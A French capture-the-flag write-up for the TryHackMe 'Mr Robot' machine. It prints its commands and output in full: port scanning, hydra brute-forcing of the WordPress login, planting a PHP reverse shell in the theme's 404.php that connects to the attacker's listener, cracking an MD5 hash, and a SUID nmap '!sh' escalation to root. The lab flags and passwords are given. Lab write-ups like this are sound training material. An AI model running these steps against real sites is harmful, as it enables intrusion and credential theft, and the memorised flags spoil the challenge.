

# Mr Robot CTF #

## Task 1 Connect to our network ##

Configurez votre vpn et connectez-vous.    

## Task 2 Hack the machine ##

```bash
 sudo sh -c "echo '10.10.127.178 robot.thm' >> /etc/hosts"

tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A robot.thm -p- 
[sudo] Mot de passe de tim : 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 11:18 CEST
Nmap scan report for robot.thm (10.10.127.178)
Host is up (0.033s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http    Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
Device type: general purpose|specialized|storage-misc|WAP|broadband router|printer
Running (JUST GUESSING): Linux 3.X|5.X|4.X|2.6.X (91%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:5.4 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.10 - 3.13 (91%), Linux 5.4 (91%), Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.2 - 3.5 (90%), Linux 3.2 - 3.8 (90%), Linux 4.2 (90%), Linux 4.4 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   32.91 ms 10.9.0.1
2   32.03 ms robot.thm (10.10.127.178)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 150.94 seconds

```

D'après le scan de nmap on a 3 service : 
Le service SSH sur le port 22.   
Le service HTTP sur le port 80.   
Le service HTTPS sur le port 443.   


Sur le service HTTP on tombe sur page avec pas grand chose.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://robot.thm -w /usr/share/dirb/wordlists/common.txt x txt -q
/.hta                 (Status: 403) [Size: 213]
/.htaccess            (Status: 403) [Size: 218]
/.htpasswd            (Status: 403) [Size: 218]
/0                    (Status: 301) [Size: 0] [--> http://robot.thm/0/]
/admin                (Status: 301) [Size: 231] [--> http://robot.thm/admin/]
/atom                 (Status: 301) [Size: 0] [--> http://robot.thm/feed/atom/]
/audio                (Status: 301) [Size: 231] [--> http://robot.thm/audio/]  
/blog                 (Status: 301) [Size: 230] [--> http://robot.thm/blog/]   
/css                  (Status: 301) [Size: 229] [--> http://robot.thm/css/]    
/dashboard            (Status: 302) [Size: 0] [--> http://robot.thm/wp-admin/] 
/favicon.ico          (Status: 200) [Size: 0]                                  
/feed                 (Status: 301) [Size: 0] [--> http://robot.thm/feed/]     
/images               (Status: 301) [Size: 232] [--> http://robot.thm/images/] 
/image                (Status: 301) [Size: 0] [--> http://robot.thm/image/]    
/Image                (Status: 301) [Size: 0] [--> http://robot.thm/Image/]    
/index.html           (Status: 200) [Size: 1077]                               
/index.php            (Status: 301) [Size: 0] [--> http://robot.thm/]          
/intro                (Status: 200) [Size: 516314]                             
/js                   (Status: 301) [Size: 228] [--> http://robot.thm/js/]     
/license              (Status: 200) [Size: 309]                                
/login                (Status: 302) [Size: 0] [--> http://robot.thm/wp-login.php]
/page1                (Status: 301) [Size: 0] [--> http://robot.thm/]            
/phpmyadmin           (Status: 403) [Size: 94]                                   
/readme               (Status: 200) [Size: 64]                                   
/rdf                  (Status: 301) [Size: 0] [--> http://robot.thm/feed/rdf/]   
/robots               (Status: 200) [Size: 41]                                   
/robots.txt           (Status: 200) [Size: 41]                                   
/rss                  (Status: 301) [Size: 0] [--> http://robot.thm/feed/]       
/rss2                 (Status: 301) [Size: 0] [--> http://robot.thm/feed/]       
/sitemap              (Status: 200) [Size: 0]                                    
/sitemap.xml          (Status: 200) [Size: 0]                                    
/video                (Status: 301) [Size: 231] [--> http://robot.thm/video/]    
/wp-admin             (Status: 301) [Size: 234] [--> http://robot.thm/wp-admin/] 
/wp-content           (Status: 301) [Size: 236] [--> http://robot.thm/wp-content/]
/wp-includes          (Status: 301) [Size: 237] [--> http://robot.thm/wp-includes/]
/wp-config            (Status: 200) [Size: 0]                                      
/wp-cron              (Status: 200) [Size: 0]                                      
/wp-links-opml        (Status: 200) [Size: 227]                                    
/wp-load              (Status: 200) [Size: 0]                                      
/wp-login             (Status: 200) [Size: 2585]                                   
/wp-mail              (Status: 500) [Size: 3064]                                   
/wp-settings          (Status: 500) [Size: 0]                                      
/wp-signup            (Status: 302) [Size: 0] [--> http://robot.thm/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]                                                   
/xmlrpc               (Status: 405) [Size: 42]                                                 
```

D'après le scan avec gobuster on remarque 2 choses.  
Un fichier robots.txt.
Un répertoire wp-login, qui indique un CMS wordpress ainsi que l'endroit pour se connecter et configurer wordpress.

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://robot.thm/robots.txt
User-agent: *
fsocity.dic
key-1-of-3.txt

```

**What is key 1?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://robot.thm/key-1-of-3.txt
073403c8a58a1f80d943455fb30724b9
```

Dans le fichier key-1-of-3.txt on trouve notre premier flag.   

La réponse est : 073403c8a58a1f80d943455fb30724b9     

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://robot.thm/fsocity.dic -s | head -10 
true
false
wikia
from
the
now
Wikia
extensions
scss
window

tim@kali:~/Bureau/tryhackme/write-up$ wget http://robot.thm/fsocity.dic -nv
2021-08-17 18:01:50 URL:http://robot.thm/fsocity.dic [7245381/7245381] -> "fsocity.dic" [1]
```

On regarde le fichier fsocity.dic, on remarque que c'est un dictionnaire.   



Sur la page d'identification quand on a mis un mauvais nom et mot de passe on a le message suivant : ERROR : invalid username.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ hydra -L fsocity.dic -p a robot.thm http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^:Invalid' 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-17 18:40:19
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://robot.thm:80/wp-login.php:log=^USER^&pwd=^PASS^:Invalid
[80][http-post-form] host: robot.thm   login: Elliot   password: a
[80][http-post-form] host: robot.thm   login: elliot   password: a
```

Avec hydra on brute force le nom d'utilisateur on trouve le nom Elliot.   


Avec le bon nom d'utilisateur on a un autre message d'erreur on va l'utiliser pour hydra.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sort -u fsocity.dic > dic.dic

tim@kali:~/Bureau/tryhackme/write-up$ hydra -l Elliot  -P dic.dic robot.thm http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^:incorrect'  -t 30
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-17 19:54:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 11452 login tries (l:1/p:11452), ~382 tries per task
[DATA] attacking http-post-form://robot.thm:80/wp-login.php:log=^USER^&pwd=^PASS^:incorrect
[STATUS] 232.00 tries/min, 232 tries in 00:01h, 11220 to do in 00:49h, 30 active
[STATUS] 323.67 tries/min, 971 tries in 00:03h, 10481 to do in 00:33h, 30 active
[STATUS] 190.14 tries/min, 1331 tries in 00:07h, 10121 to do in 00:54h, 30 active
[STATUS] 136.67 tries/min, 2050 tries in 00:15h, 9402 to do in 01:09h, 30 active
[STATUS] 112.03 tries/min, 3473 tries in 00:31h, 7979 to do in 01:12h, 30 active
[STATUS] 103.79 tries/min, 4878 tries in 00:47h, 6574 to do in 01:04h, 30 active
[80][http-post-form] host: robot.thm   login: Elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-17 20:51:03

```

Supprime tout les mots en doublons ou plus.   

On brute force le mot de passe.    
On trouve un mot de passe qui est : ER28-0652    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php -nv
2021-08-17 21:52:04 URL:https://raw.githubusercontent.com/timruff/php-reverse-shell/master/php-reverse-shell.php [5491/5491] -> "php-reverse-shell.php" [1]

tim@kali:~/Bureau/tryhackme/write-up$ sed -i 's/127.0.0.1/10.9.228.66/g' php-reverse-shell.php 

```

On télécharge le reverse shell.    
On le prépare.   


Dans appearance allez dans Editor.  
On mette le reverse shell dans le fichier 404.php

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le port 1234 pour se connecter au reverse shell.  


On exécute le reverse shell.    

```bash
listening on [any] 1234 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.117.195] 38844
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 20:01:37 up  4:10,  0 users,  load average: 0.00, 0.01, 0.06
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
$ ls /home
robot
$ cd /home/robot

$ ls -al /home/robot 
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

$ cat /home/robot/password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```

On obtient un shell.
On voit que l'on est connecté sous daemon.    
Quand on regarde les fichier dans \/home\/robot on peut que lire password.raw-md5.   
Dans le fichier il y a des identifiants.    
Nom : robot    
Un mot passe sous forme de hash md5 : c3fcd3d76192e4007dfb496cca67e13b    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ echo "c3fcd3d76192e4007dfb496cca67e13b" > hash

tim@kali:~/Bureau/tryhackme/write-up$ hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt --quiet
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
``` 

On casse le hash avec hashcat.    
Le mot de passe est : abcdefghijklmnopqrstuvwxyz   

**What is key 2?**

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot

su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

On stabilise  le shell.   
Avec les identifiants trouvés on se connecte sur robot.   
On lit le fichier key-2-of-3.txt et on trouve le 2eme flag.  

La réponse est : 822c73956184f694993bede3eb39f959   

**What is key 3?**

```bash
robot@linux:~$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

On regarde les fichiers setuid.
Le fichier nmap sort du lot.  

```bash
robot@linux:~$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# id
id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# ls /root/
ls /root/
firstboot_done	key-3-of-3.txt
# cat /root/key-3-of-3.txt
cat /root/key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4

 ```

On exploite nmap en mode interactif. [gtfobins](https://gtfobins.github.io/gtfobins/nmap/)
On obtient un shell qui a les droits root.    
On lit le dernier fichier key-3-of-3.txt.  

La réponse est : 04787ddef27c3dee1ee161b21670b4e4    